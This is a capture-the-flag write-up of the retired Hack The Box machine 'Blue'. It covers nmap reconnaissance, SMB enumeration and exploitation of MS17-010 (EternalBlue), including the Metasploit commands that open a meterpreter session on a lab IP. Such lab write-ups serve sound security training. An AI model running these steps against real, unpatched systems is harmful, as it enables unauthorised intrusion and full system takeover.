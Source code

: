 ```yaml
---
title: "Blue"
description: "An easy rated Windows machine that demonstrates the critical vulnerability in Windows SMBv1, also known as MS17-010 or 'EternalBlue'."
tags: ["htb", "writeup", "cve", "metasploit", "eternalblue", "ms17-010", "smb"]
pubDate: 2024-08-01
slug: "blue"
cover: "../../assets/images/Blue.png"
os: "windows"
htbMachineActive: false
---
```


## Table of Contents

## Reconnaisance

Start out by running `nmap` as always.

![nmap](../../assets/images/blue-nmap.webp)

This gives us quite a few TCP ports open but the 5 digit ones we don't really care about. We're looking at the other three, 135, 139 and 445. Ports 139 and 445 are typically where Windows SMB is running. We can see in the host script results from `nmap` that this is a Windows 7 Professional 7601 Service Pack 1 machine.

_Coming to this machine in 2024, it's well known what the attack vector is (just given the name and from word of mouth about this particular box). But assuming I didn't know, the next step would be to Google exploits for this specific OS and Service Pack. Doing that, you'd easily find MS17-010_

![google](../../assets/images/blue-windows7-google-results.png)

Here is a brief [explanation](https://www.varonis.com/blog/smb-port) of the differences in the SMB ports.

## Enumeration

We could really just jump right to [exploitation](#exploitation) at this point but I did this on "Guided Mode" with a friend that at the time was still learning and this path has you enumerate SMB, so we will here too.

Using `smbclient` (or `crackmapexec`), we can easily list out the SMB Shares.

![smbclient](../../assets/images/blue-smbclient-list-shares.webp)

That's really it for enumerating SMB. We can see there's 5 shares. Now to exploiting this.

## Exploitation

Knowing what we know about the attack vector, we can start up `metasploit`. After it starts up, we can search for the exploit `ms17-010` and we get some good looking results.

![msfconsole](../../assets/images/blue-msf-search.webp)

We `use 2` since we know our target machine is Windows 7 and it sets the target for us.

```bash
set RHOSTS 10.129.70.139
set LHOST tun0
exploit
```

![msf-options](../../assets/images/blue-eternalblue-exploit-msf.webp)

_Yes, I put `execute` instead of `exploit`. Stop laughing at me._

Just like that we have a meterpreter session.

## Foothold

We can use some nifty meterpreter commands to get some information.

![getuid](../../assets/images/blue-msf-getuid.webp)

At this point, we own the system. We are the King of the castle and have full access. We can get the user and root flags from here.

![msf-user](../../assets/images/blue-exfil-user-flag.webp)

![msf-root](../../assets/images/blue-exfil-root-flag.webp)

## Conclusion

This machine is fun to do. It's quick, especially with Metasploit, and easy. It demonstrates how severe this MS17-010, EternalBlue, vulnerability really was and the damage it could/can do. After this vulnerability was released by [The Shadow Brokers](https://darknetdiaries.com/episode/53/) (after being stolen from the NSA), multiple malwares were created. The first notable being [WannaCry](https://darknetdiaries.com/episode/73/) ([Wikipedia](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)). The next notable would be [NotPetya](https://darknetdiaries.com/episode/54/), a variant of the [Petya](<https://en.wikipedia.org/wiki/Petya_(malware_family)>) malware which has been attributed to Russian hacking groups.
